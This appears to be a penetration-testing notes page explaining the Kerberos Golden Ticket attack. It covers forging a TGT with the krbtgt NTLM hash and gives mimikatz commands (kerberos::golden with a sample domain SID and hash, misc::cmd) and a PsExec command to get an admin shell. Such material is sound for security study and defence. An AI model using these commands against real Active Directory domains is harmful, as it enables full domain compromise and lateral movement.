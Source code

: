 # Golden Ticket

## Intro

Golden Ticket Attack is also a good example of the Pass the Ticket Attack.  the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT \(with a valid PAC\) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical \(krbtgt\). we would thus have to obtain the NTLM hash of the krbtgt account \(RC4\) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT \(golden ticket\). there is no prior credential submission or AS\_REQ/AS-REP.

the difference between a golden ticket and other tickets \(including the silver ticket \) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key \(which is not easy to get\)
3. its typically a TGT for an administrative account \(RID 500 in a domain or domain administrator\)
4. its typically valid for a long time \(10 years by default\)

## 
Creating a Golden Ticket

**with mimikatz we can create a Golden Ticket if we have the following information:**

**KDC LT key \(e.g: krbtgt NTLM hash\)**

**Domain admin account name**

**SID of domain admin account**



#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```text
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](../../../.gitbook/assets/image%20%28200%29.png)

now we can get a shell with admin privileges:

```text
misc::cmd
```

![](../../../.gitbook/assets/image%20%28201%29.png)

or using psexe:

```text
PsExec64.exe \\192.168.1.105 cmd.exe
```


